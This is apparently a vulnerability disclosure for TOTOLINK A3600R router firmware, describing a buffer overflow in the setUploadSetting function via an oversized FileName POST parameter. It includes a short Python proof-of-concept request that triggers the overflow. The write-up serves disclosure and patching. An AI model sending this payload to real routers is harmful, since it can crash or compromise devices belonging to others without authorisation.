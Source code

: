 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setUploadSetting` function. The `v6` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721013957073](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721013957073.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"FileName":"a"*0x1000,"topicurl":"setUploadSetting"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721014105284](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014105284.png)
